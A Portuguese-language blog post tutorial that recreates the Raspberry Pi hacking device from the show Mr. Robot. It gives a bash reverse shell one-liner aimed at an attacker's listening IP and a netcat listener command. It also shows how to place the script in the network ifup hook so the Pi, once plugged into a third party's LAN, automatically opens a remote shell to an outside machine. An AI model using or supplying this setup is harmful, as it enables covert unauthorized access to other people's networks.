 ```yaml
---
layout: post
title: Mr. robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags: [Mr_robot, raspberry, hack, reverse_shell]
categories: [raspberry, hack]
author: lgribeiro
published: true
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não retrata fielmente as condições encontradas por Elliot no episódio eps1.3\_\_da3m0ns.mp4. Então, optei por adaptar um pouco o tutorial para ele se tornar mais parecido com o conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte mas no final, teremos um algo a mais. Vamos aos passos:

1.Baixar o [Kali linux para ARM](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que se adequa ao hardware que estiver utilizando. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

<figure class="center">
<img src="{{ site.url }}/images/offensive-sec.png" alt="">
</figure>


2.Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso no raspberry. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey. Utilizaremos o shell reverso abaixo.

{% highlight bash%}
{% raw %}
bash -i >& /dev/tcp/<ip da maquina que está escutando>/8080 0>&1
{% endraw %}
{% endhighlight %}

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

{% highlight bash%}
{% raw %}
chmod +x reverse
{% endraw %}
{% endhighlight %}

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com essa extensão.

3.Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

{% highlight bash %}
{% raw %}
 nc -lvp 8080
{% endraw %}
{% endhighlight %}

4.Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto nos desviamos um pouco do artigo que utilizamos como base.
No lugar de teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. 

{% highlight bash %}
{% raw %}
mv reverse /etc/network/interfaces/ifup
{% endraw %}
{% endhighlight %}

Dessa forma, assim que a interface de rede do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins]({{ site.url }}/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br


